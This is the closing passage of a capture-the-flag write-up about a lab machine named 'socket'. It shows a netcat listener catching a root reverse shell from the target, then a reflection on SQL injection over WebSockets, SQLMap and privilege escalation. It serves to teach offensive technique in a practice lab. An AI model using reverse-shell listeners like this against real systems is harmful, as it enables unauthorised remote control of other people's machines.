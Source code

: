 Meanwhile in another terminal session:
```bash
$ nc -nvlp 8001                                            
listening on [any] 8001 ...
connect to [10.10.14.101] from (UNKNOWN) [10.10.11.206] 37536
root@socket:/tmp/1#
```

## Reflection
The difficulty of this box is primarily focused in the WebSocket interaction, true to the box name. The SQLi vulnerability can be easily missed, and without extra help, SQLMap can give a lot of problems as well. As a final hit to those manually exploiting, retrieving the password hash is not enough information to access the box. However, once this challenge is overcome, privilege escalation to root authority is much simpler and flexible.  I learned several new things on the box, in particular I appreciate learning about rayhan0x01's solution to using SQLMap for WebSocket tasks.
